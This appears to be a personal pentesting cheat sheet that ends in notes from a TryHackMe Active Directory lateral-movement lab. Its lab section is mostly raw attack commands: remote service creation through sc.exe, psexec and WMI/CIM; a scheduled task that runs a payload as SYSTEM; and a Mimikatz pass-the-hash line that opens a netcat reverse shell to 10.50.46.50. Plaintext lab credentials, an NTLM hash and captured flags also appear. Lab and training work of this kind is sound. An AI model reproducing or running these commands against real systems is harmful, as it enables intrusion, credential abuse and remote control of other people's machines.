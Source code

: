 # Basic Steps

[Tyler's Notebook](https://southeasttech-my.sharepoint.com/:o:/g/personal/tyler_ramsbey_southeasttech_edu/EmrNEjx_FjRKjYRotc9TikMB7DtzCwhKWOAEovdtZADBgg?rtime=bQkHVxRr20g)

## Automatic web enum
- dirb | dirsearch
- linpeas
- wpsscan -U user -P password

## Basic network
- nmap (all ports)
  - script: locate -r nse$ | grep NAME
- nmap Scrips
  - locate -r nse$ | grep mysql = nmap script

## Linux
- sudo -l
- find / -perm -u=s -type f 2>/dev/null
- find / -type f -perm -04000 -ls 2>/dev/null 
- psexec.py
- lscpu
- lsblk -a
- lsusb -v
- lspci -t -v
- fidlist -l
  
- Shell stabilize
  -  python3 -c 'import pty;pty.spawn("/bin/bash")'
  - python3 -c  import pty;pty.spawn('/bin/bash') 
  - export TERM=xterm

## Payloads
- msfvenom - reverse -f aspx -o app.aspx

## Windows
- /priv
- systeminfo
- smb read/write
- browser cache
- scheduled task
- UAC
- Check loggings
  - sysmon enable / powershell loggging enabled ?
- echo %VARIABLE%


# Lateral Movement
tony.holland:Mhvn2334

$ ssh za.tryhackme.com\\tony.holland@thmjmp2.za.tryhackme.com


sc.exe \\thmiis.za.tryhackme.com create THMservice-3244 binPath= "%windir%\pat.exe" start=auto
THM{MOVING_WITH_SERVICES}

\\thmiis.za.tryhackme.com 

psexec64.exe \\thmiis.za.tryhackme.com -u ZA.TRYHACKME.COM\t1_leonard.summers -p EZpass4ever -i %windir%\pat.exe

psexec64.exe \\thmiis.za.tryhackme.com -u t1_leonard.summers -i %windir%\pat.exe

===
$username = 'ZA.TRYHACKME.COM\t1_leonard.summers';
$password = 'EZpass4ever';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;

Enter-PSSession -Computername \\thmiis.za.tryhackme.com -Credential $credentialwho

#########
User: ZA.TRYHACKME.COM\t1_corine.waters

Password: Korine.1994

Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{Name = "pat";DisplayName = "pat";PathName = "%windir%\pat.msi";ServiceType = [byte]::Parse("16");StartMode = "Manual"}

$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'pat'"


$Command = "cmd.exe"
$Args = "%windir%\pat.msi"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "pat2" Start-ScheduledTask -CimSession $Session -TaskName "pat2"


THM{MOVING_WITH_WMI_4_FUN}


##########


sekurlsa::pth /user:t1_toby.beck /domain:za.tryhackme.com /ntlm:f461626e5bfb1c0e98e80a30630aefb2 /run:"c:\tools\nc64.exe -e cmd.exe 10.50.46.50 5555"

t1_toby.beck5\desktop\flag.exe
